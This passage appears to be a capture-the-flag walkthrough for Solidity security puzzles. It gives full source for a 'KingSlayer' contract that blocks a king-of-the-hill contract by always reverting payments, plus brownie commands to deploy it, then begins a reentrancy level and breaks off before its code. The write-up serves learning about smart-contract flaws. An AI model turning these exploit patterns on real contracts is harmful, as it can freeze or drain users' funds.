 ## 10. King

Our goal for this level is to become king - and defend that role against any upstarts!

Claiming the king role is simple - send an ether amount greater than `prize` directly to the contract so the receive function can trigger, send the current king the prize and make you king. But if you try to submit the level here, the owner will always be able to reclaim the king role from you. We need to find a way to prevent the receive function from executing after we claim our kingship.

To do this, we want to claim the king role via a contract of our own creation, and we want any triggers of our contract's receive function to revert. Easy! 

    // SPDX-License-Identifier: MIT
    
    pragma solidity ^0.8.0;
    
    interface IKing {
      function prize() external view returns (uint);
    }
    
    contract KingSlayer{
    
      function kill(address instance) external payable{
        require(msg.value >= IKing(instance).prize(), 'msg.value should be higher than prize.');
        (bool success,) = instance.call{value: msg.value}("");
        require(success);
      }
    
      receive() external payable{
        revert('Nice try, pal!');
      }
    }

Notice that this contract's receive function will ALWAYS revert - which means that any of the King contract's receive function transfers to this address will revert, and nobody can claim kingship after us.

In the brownie console:

    attacker = KingSlayer.deploy({'from': player})
    prize = interface.IKing(instance).prize()
    attacker.kill(instance,{'from': player, 'value': prize})
    
And that's it, now the level can be submitted!

## 11. Reentrance

Reentrancy is a classic solidity exploit - the 2016 DAO hack which prompted the ETH-ETC hard fork was a reentrant attack.

The idea for this level is to call withdraw in a way that will prompt additional calls to withdraw before the balances can be updated to reflect it. Since the contract will be sending ether to us, we know that we can make use of a receive function - and that's where we'll execute our attack.

    // SPDX-License-Identifier: MIT
    
    pragma solidity ^0.8.0;
    